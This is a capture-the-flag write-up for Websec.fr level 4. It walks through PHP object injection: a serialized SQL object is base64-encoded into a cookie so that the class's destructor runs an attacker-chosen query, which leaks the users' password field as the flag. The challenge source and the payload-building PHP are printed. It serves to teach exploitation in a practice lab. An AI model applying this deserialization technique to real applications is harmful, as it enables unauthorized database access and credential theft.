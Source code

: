 ```yaml
---
title: Websec.fr level 4 - 1 point
date: May 11, 2024 11:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/88d3440d-cee4-486d-9990-9e950a62e554)
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/fba91e37-3f96-4236-8eee-14ca3015b98b)

```php
source1.php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
```

```php
source2.php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

ok let's look at the first php script.
We can see that if we set a cookie within the header under the parameter <b>leet_hax0r</b> that is an SQL object and
1. Serialized
2. base64 encoded

And don't set the ip (because then it won't be equal to $_SERVER['REMOTE_ADDR']) it will die, which is good for us, why ?

Looking into the second php script we can see in the <b>ret = $this->execute ();</b>. Meaning, the die function will execute our query. Let's dive in.

First, we want to create a serialized object with a query, and see that we get an appropriate response back from the website.

```php
// serialize_object.php
<?php
class SQL {
  public $query;

  public function __construct($query) {
    $this->query = $query;
  }
}

$query = new SQL("SELECT username FROM users WHERE id=1");
$serialized = serialize($query);
echo $serialized;
?>
```

We use the query from the source1.php script 
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/49fb2442-5eba-4c76-a331-30fc272774eb)

Now base 64, and curl to get a response
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/da0279ec-1cfd-4cf7-bdd7-ef51ab513304)

![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/273fc908-dcfc-499d-8010-829e9e779b7d)


OK ! now we know how to interact with the website and the server. But how do we get the flag ? 

Look at this peace of code from source2.php 
```php
if (false !== $ret) {    
    while (false !== ($row = $ret->fetchArra(SQLITE3_ASSOC))) {
        echo '<class="well"><strong>Username:<strong' . $row['username'] . '</p>';
    }
}
```

looks like there might be something interesting in 'username' field. Let's check if we can query the password of the username in that row

```php
<?php
class SQL {
  public $query;

  public function __construct($query) {
    $this->query = $query;
  }
}

$query = new SQL("SELECT password AS username FROM users WHERE id=1");
$serialized = serialize($query);
echo $serialized;
?>
```

same steps like before:
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/90b84d09-fce0-4e28-98bc-34f60cff7e0e)

![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/f897dfd0-7235-4144-a34e-3f134f70324e)

Looks like we got the flag !! <br></br>
Thanks for reading !


